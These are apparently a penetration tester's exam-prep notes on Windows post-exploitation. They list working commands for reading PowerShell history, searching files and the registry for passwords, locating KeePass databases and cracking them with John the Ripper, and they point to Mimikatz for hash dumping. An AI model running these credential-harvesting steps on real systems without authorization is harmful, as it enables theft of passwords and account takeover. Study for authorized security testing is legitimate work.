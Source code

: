 ## Post Exploitation
This is more windows specific as exam specific.
💡 Run WinPEAS.exe - This may give us some more detailed information as no we’re a privileged user and we can open several files, gives some edge!
---
## Sensitive Information
### Powershell History
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Example
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 

### Searching for passwords
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
---
### Searching in Registry for Passwords
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
### KDBX Files
💡 Always check documents folders, i may contain some juicy files

#These are KeyPassX password stored files
cmd> dir /s /b *.kdbx 
Ps> Get-ChildItem -Recurse -Filter *.kdbx

#Cracking
keepass2john Database.kdbx > keepasshash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt keepasshash
---
## Dumping Hashes
1. Mimikatz
2. If this is a domain joined machine, then follow Post-exp steps for AD.

![image](https://github.com/user-attachments/assets/b30e48db-e439-4f44-bbb4-424ac4c51577)
